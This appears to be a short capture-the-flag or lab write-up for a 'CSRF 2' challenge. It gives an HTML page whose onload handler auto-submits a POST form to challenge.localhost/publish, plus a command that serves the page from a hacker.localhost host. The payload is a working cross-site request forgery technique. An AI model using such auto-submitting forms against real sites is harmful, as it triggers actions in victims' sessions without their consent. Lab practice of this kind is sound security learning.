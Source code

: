 # CSRF 2

Create a html page to serve, which makes the POST request via **self-submitting form**:

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
    <form action="http://challenge.localhost/publish" method="POST"></form>
</body>
</html>
```

Run in the directory of index.html:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```
